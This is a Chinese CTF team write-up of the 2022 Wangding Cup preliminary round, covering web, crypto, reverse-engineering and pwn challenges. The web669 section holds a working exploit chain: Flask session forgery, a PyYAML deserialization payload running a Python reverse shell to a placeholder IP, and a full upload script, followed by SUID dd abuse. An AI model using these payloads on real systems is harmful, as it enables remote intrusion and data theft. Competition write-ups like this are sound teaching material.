




# 2022-网鼎杯青龙组-初赛-HED-WriteUp
**Rank: 7** *1016pts 9Solved*  
**青龙组总第8，组内高校赛道第7**  
该wp为团队wp，主力博客https://blog.monadx.com/ 

`HED 是南方科技大学COMPASS实验室的CTF战队`

- [2022-网鼎杯青龙组-初赛-HED-WriteUp](#2022-网鼎杯青龙组-初赛-hed-writeup)
- [Web](#web)
  - [web669](#web669)
- [Crypto (AK)](#crypto-ak)
  - [crypto162 （二血）](#crypto162-二血)
  - [crypto405](#crypto405)
  - [crypto091](#crypto091)
- [Re](#re)
  - [re693（一血）](#re693一血)
  - [re694](#re694)
- [PWN](#pwn)
  - [pwn349](#pwn349)
  - [pwn497](#pwn497)
- [MISC](#misc)
  - [签到：](#签到)


# Web
## web669 

首先喵一下代码，发现上传文件需要 `session['user'] == 'Administrator'`，然后翻一下 session 的 secret key，发现：

``` python
app.config['SECRET_KEY'] = socket.gethostname()
```

看到hostname考虑平台的Docker环境可能是一样的，果断登录CTF大本营打开百度杯的SSTI题目
 

摸了一下 hostname 得到返回值 `engine-1`，验证发现果然是这个。

 

拿到了 SECRET_KEY 之后，就可以随便改 `session` 了，也就是 `user` 和 `updir` 都能随便改。

这样的话，我们现在就可以上传文件了。并且由于可以控制 `updir`，所以我们就可以任意文件读，也可以任意文件写了（只要有权限）。

然后发现任意文件读没什么用（~~主要是读不到 flag~~），然后尝试写文件也写不到 `templates` 里面去（事后发现确实没那个目录的权限），所以剩下只有 `yaml.load` 可以利用了。

然后 `yaml` 过滤了 `system` 等关键词，所以一个比较省事的办法就是先 base64 一下然后再 eval。

然后至于怎么实现这个逻辑，翻了一圈大佬的文章，最后发现一个能用的：

https://www.tr0y.wang/2022/06/06/SecMap-unserialize-pyyaml/

大佬没给出实现，自己按大佬博客的思路实现一下：

``` yaml
!!python/object/new:bytes
- !!python/object/new:map
  - !!python/name:eval
  - !!python/object/new:map
    - !!python/name:base64.b64decode
    - ["{BASE64 HERE}"]
```

翻译过来其实就是 `bytes(map(eval, map(base64.b64decode, 'BASE64 HERE')))`。然后 base64 的部分，可以填一个常规的反弹 shell：   
```
exec("import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect((\"YOUR-IP\",PORT)); 
os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call([\"/bin/sh\",\"-i\"]);")
```

然后把这个 yaml 上传到一个 `/display` 能访问到的位置上（即要提前算好 md5），然后再用 `/display` 摸一下，就能执行了。执行完了之后，就拿到了 shell。

但是翻了一下，发现 `/flag` 好像没权限读。

`find -perm -u=s -type f 2>/dev/null` 遍历有suid权限的程序，发现除了正常的程序外有dd

考虑dd写passwd提到root，但是队里神仙师傅直接用 `dd if=/flag of=copy` 复制了一份 flag，然后就可以读了。

上面 web 部分的脚本如下：

``` python
from itsdangerous import URLSafeTimedSerializer
import base64
import flask
import hashlib
import os
import requests

def dump_cookies(secret_key, data):
    return URLSafeTimedSerializer(
        secret_key,
        salt = 'cookie-session',
        serializer = flask.json.tag.TaggedJSONSerializer(),
        signer_kwargs = dict(key_derivation = "hmac", digest_method = hashlib.sha1),
    ).dumps(data)

def create_rar(target, contents):
    for (file, content) in contents.items():
        with open(file, 'w') as f:
            f.write(content)
        os.system(f'rar a {target} {file}')

def create_session(key):
    data = { 'user': 'Administrator', 'updir': 'fileinfo' }
    return dump_cookies(key, data)

def create_yaml_payload():
    command = f'exec("import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
    s.connect((\\\"YOUR-IP\\\",PORT)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);
     os.dup2(s.fileno(),2); p=subprocess.call([\\\"/bin/sh\\\",\\\"-i\\\"]);")'
    command_encode = base64.b64encode(command.encode()).decode()

    return f'''
!!python/object/new:bytes
- !!python/object/new:map
  - !!python/name:eval
  - !!python/object/new:map
    - !!python/name:base64.b64decode
    - ["{command_encode}"]'''

def main():
    dummy_filename = 'monad'
    dummy_filename_md5 = hashlib.md5(dummy_filename.encode()).hexdigest()
    rar = f'.1.rar'
    create_rar(rar, { f'{dummy_filename_md5}.yaml': create_yaml_payload() })

    session = create_session('engine-1')
    url = 'http://eci-2ze2kqsxzki5jel0ux1b.cloudeci1.ichunqiu.com:8888'
    r = requests.post(url + '/upload', cookies={'session': session}, files={'file': open(rar, 'rb')})
    r = requests.get(url + '/display', cookies={'session': session}, params={'file': dummy_filename})

if __name__ == '__main__':
    main()
```

# Crypto (AK)
## crypto162 （二血）

首先，嗯，我们先来看看代码：

``` python
def cal(i, cof):
    if i < 3:
        return i + 1
    else:
        return cof[2] * cal(i-3, cof) + cof[1] * cal(i-2, cof) + cof[0] * cal(i-1, cof)
```

然后一看，垃圾递归，顺手把他改成迭代的：


``` python
MOD = 10 ** 2010
buffer = [1, 2, 3] + [ 0 for _ in range(200000 + 1) ]

s = 0
for cof in cof_t:
    for j in range(3, 200000+1):
        buffer[j] = (cof[2] * buffer[j-3] + cof[1] * buffer[j-2] + cof[0] * buffer[j - 1]) % MOD
    s = (s + buffer[200000]) % MOD
```

然后又因为后面有 `s=str(s)[-2000:-1000]`，所以顺便模一下 $2^{2000}$ 次方，不会对答案产生影响。

然后本来还想着要不要继续优化的，但是刚想出来怎么优化，上面的那段代码就跑出来了。

然后拿着输出的 `s` 验算一下，是可以对上 `verify` 的。然后……然后就用 AES 解密就解出来啦？

## crypto405 

由于 `k` 一直在更新，有点难分析，不妨给 `k` 加一维（即 `i` 相关），于是代码就是：

``` python
for i in range(len(flag)):
    k[i][0] = flag[i]
    for j in range(1, 5+1):
        k[i][j] = k[i][j - 1] * k[i - 1][j] % p
    print('Grasshopper#' + str(i).zfill(2) + ':' + hex(k[i][5])[2:].zfill(4))
```

然后不难发现，`k` 里面的每个值，会且会被赋值一次。并且用 `k[i][j]` 和 `k[i - 1][j]` 可以计算出 `k[i][j - 1]`（因为 `p` 是质数，所以直接求逆即可）。

然后 output.txt 里面给出了最后的 `k`，即 `k[..][5]`。于是我们就可以用上面所说的方法，从 `k[..][5]` 算出 `k[..][4]`，从 `k[..][4]` 算出 `k[..][3]`……直至算出 `k[..][0]`，也就是 flag。

所以最后的过程就是枚举 `p`，然后对 `k` 做逆运算求出 `flag`，并顺便判断一下 flag 合不合法（需要是可打印字符）。

``` python
from Crypto.Util.number import *
import more_itertools
import string

out = [ 0x2066, 0xa222, 0xcbb1, 0xdbb4, 0xdeb4, 0xb1c5, 0x33a4, 0xc051, 0x3b79, 0x6bf8,
 0x2131, 0x2c40, 0x91ba, 0x7b44, 0x5f25, 0x0208, 0x7edb, 0x62b5, 0xcec5, 0x5ab3, 0x3c46,
  0xc272, 0x714b, 0x9e0b, 0x48ee, 0x44cc, 0x05a0, 0x3da3, 0x11b1, 0x259f, 0x899d, 0xa130,
   0xe58f, 0x23f3, 0x5829, 0x6beb, 0x3681, 0x0054, 0xa189, 0x2765, 0xc63d, 0xbc68 ]

def solve_with(p):
    now = out
    for k in range(5):
        now = [ y * pow(x, -1, p) % p for x, y in more_itertools.windowed(now, n=2, step=1) ]
    if max(now) < 256:
    	print(bytes(now))

for p in range(max(out) + 1, 2**16):
    if isPrime(p):
        solve_with(p)
```

## crypto091 

已知 sha(手机号) = `c22a563acc2a587afbfaaaa6d67bc6e628872b00bd7e998873881f7c6fdc62fc`，且“手机号是170号段首批放号的联通号码”。

联通号码，那肯定是中国的，所以国家代码是 `86`，然后“首批放号的联通号码”，稍微查一下，就能发现号码段是 `1709`，多一位。所以手机号的前 6 位就出来了：`861709`。

然后 sha 出来的长度是 64 位的 hex，所以这是个 sha256。

用 hashcat 跑一下最后的 7 位数字：

```
$ hashcat -a 3 -m 1400 'c22a563acc2a587afbfaaaa6d67bc6e628872b00bd7e998873881f7c6fdc62fc' '861709?d?d?d?d?d?d?d' -O --force

...
c22a563acc2a587afbfaaaa6d67bc6e628872b00bd7e998873881f7c6fdc62fc:8617091733716
...
```

就可以拿到手机号：`8617091733716`（也就是 flag）。

# Re
## re693（一血）
go正向，按逻辑把前两个print的字符串拿出来：
```
Input the first function, which has 6 parameters and the third named gLIhR: 
Input the second function, which has 3 callers and invokes the function named cHZv5op8rOmlAkb6: 
```
上边很多函数，但一搜包含字符串的函数复杂度只有180*50，好像挺能接受的

正则搜一下第一个，发现只有五个匹配（这里后半段贪心了，肉眼过一遍发现实际只有一个是正确的）

`\(.*?,.*?, gLIhR.*?,.*?, .*?, .*?\)`

就找到了第一段的答案


然后搜第二个调用`cHZv5op8rOmlAkb6(.*?)`，同时函数名的出现次数==5（多余的在字符串转函数引用的那个方法里和它自身好像）

只有50多个，准备挨个都手搜一下同名函数个数，结果第二个就正好符合5个

直接把函数一二两个字符串放到go在线环境https://go.dev/play/ 一跑就出来了


## re694
exeinfo_pe 查到是UPX，但提示文件被hack不能直接脱，IDA打开提示IAT炸了


010打开发现有FUK01 FUK02，想到最简单的之前看博客讲魔改UPX的方法就是把UPX01抹掉，果断把两个FUK换成UPX，exeinfo再查就提示能正常脱了


这时候upx -d直接解，放到IDA里发现看起来像VSStudio debug模式编译的程序，shift f12找到了flag正确的字符串，引用跟入到函数，看下调用的其他函数发现大致逻辑：


字符串比较
`4B48791345305C495A7913706D78136F485D6464`  


add `10`, XOR `0X50`   


XOR `0X66`  



然后反着操作一遍就得到了flag

CyberChief配方：
```
cyberchief/CyberChef_v9.46.0.html#recipe=From_Hex('Auto')XOR(%7B'option':'Hex','string':'50'%7D,'Standard',false)
SUB(%7B'option':'Hex','string':'A'%7D)ADD(%7B'option':'Hex','string':'A'%7D/disabled)XOR
(%7B'option':'Hex','string':'66'%7D,'Standard',false)&input=NEI0ODc5MTM0NTMwNUM0OTVBNzkxMzcwNkQ3ODEzNkY0ODVENjQ2NA
```

# PWN
## pwn349
没点开497就先做了这题

以为是blind-pwn然后就上去去一通乱摸，考虑有什么可执行程序能读文件并报错的，队里的师傅找到了cc1plus编译并输出到stdout可以爆出flag：

`lib/gcc/x86_64-linux-gnu/5/cc1plus -o- flag`


## pwn497

`lib/gcc/x86_64-linux-gnu/5/cc1plus -o- flag`
做完349点开一看发现了497的附件（？），于是同样的payload拿到flag，大概是349非预期了罢


# MISC
## 签到：
签到，答案可以为空，可以单个爆破不确定的题目
